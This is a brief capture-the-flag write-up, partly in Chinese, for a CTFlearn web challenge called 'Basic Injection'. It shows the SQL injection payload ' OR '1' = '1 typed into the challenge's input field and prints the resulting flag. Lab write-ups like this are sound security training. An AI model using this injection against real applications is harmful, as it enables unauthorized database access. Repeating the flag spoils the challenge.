 # Basic Injection
Category: `WEB`

See if you can leak the whole database. The flag is in there somwhere… https://web.ctflearn.com/web4/

## Write-up
透過題目連結，來到一個網站可輸入東西，

直覺反應是SQL injection

因此馬上輸入常見SQL injection語法
```
' OR '1' = '1
```

![Figure](https://github.com/Offliners/CTFlearn-writeup/blob/master/WEB/Basic%20Injection/Figure.PNG)

果不其然，flag馬上出來~

Flag : `th4t_is_why_you_n33d_to_sanitiz3_inputs`
